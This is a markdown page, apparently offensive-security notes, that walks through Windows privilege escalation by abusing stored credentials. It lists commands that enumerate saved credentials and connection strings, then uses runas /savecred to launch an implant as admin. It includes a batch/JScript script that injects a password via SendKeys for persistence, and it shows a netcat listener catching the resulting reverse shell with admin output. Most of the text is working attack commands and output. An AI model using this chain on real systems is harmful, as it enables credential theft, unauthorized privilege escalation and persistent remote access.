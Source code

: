 # Living off the Land

## 01 - Detect

### 1.1 - Command Prompt

This privilege escalation techniques is really easy to escalate to get the administrators group level. As the command follows:

```
C:\> cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

Check for credentials.

```
C:\> dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\

C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\

C:\> type C:\Windows\Microsoft.NET\Framework64\v*\Config\web.config | findstr connectionString
```

### 1.2 - PowerShell

```
PS C:\> cmdkey /list

PS C:\> Get-ChildItem -Hidden C:\Users\$Env:USERNAME\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\$Env:USERNAME\AppData\Roaming\Microsoft\Credentials\
```

## 02 - Exploit

We know the user is `admin` and the type of password is **Domain Password**. We will use the `runas` windows command to execute with admin privileges. And the flag `/savecred` will store the credentials in the **Windows Credentials** management and can be elevated without needing to re-enter the password after passing the particular username account once.

```
C:\> runas.exe /savecred /user:admin shell.exe
```

The full path of the `runas.exe` Windows builtin tool.

```
C:\> where.exe runas
C:\Windows\System32\runas.exe

C:\Windows\system32\runas.exe /user:<DOMAIN>\<username> "C:\Windows\system32\cmd.exe /c whoami"
```

We can also leverage this to make it persistent with the credentials we've obtained from the target with this script:

```batch
C:\> type savecred.bat
@if (@CodeSection == @Batch) @then
@echo off
start "" runas /savecred /user:%1 %2
CScript //nologo //E:JScript "%~F0"
goto :EOF
@end
WScript.CreateObject("WScript.Shell").SendKeys("<password>{ENTER}");
```

The syntax is for the batch script:

```
C:\> savecred.bat <drive_letter>:\path\to\implant.exe
```

Launch a shell handler to listen for incoming connection.

```
$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.174.46.
Ncat: Connection from 10.10.174.46:49801.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
```

And you have successfully escalated to administrator user account.

```
C:\Windows\system32> whoami
win-qba94kb3iof\admin
C:\Windows\system32> net user %username%
net user %username%
User name                    admin
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/19/2020 10:05:42 AM
Password expires             Never
Password changeable          8/19/2020 10:05:42 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/25/2022 6:30:17 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

---
## References

- [SS64: RunAs](https://ss64.com/nt/runas.html)

- [LOLBAS: cmdkey](https://lolbas-project.github.io/lolbas/Binaries/Cmdkey/)

- [Windows Server 2012 R2](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11))

- [Windows RunAs Command Prompt](https://www.windows-commandline.com/windows-runas-command-prompt/)

- [int0x33: RunAs Reverse Shell](https://gist.github.com/int0x33/eb358632a13bcd1e017a14c0fb00a52b)

- [Windows RunAs Reverse Shell](https://labs.p64cyber.com/windows-run-as-reverse-shell/)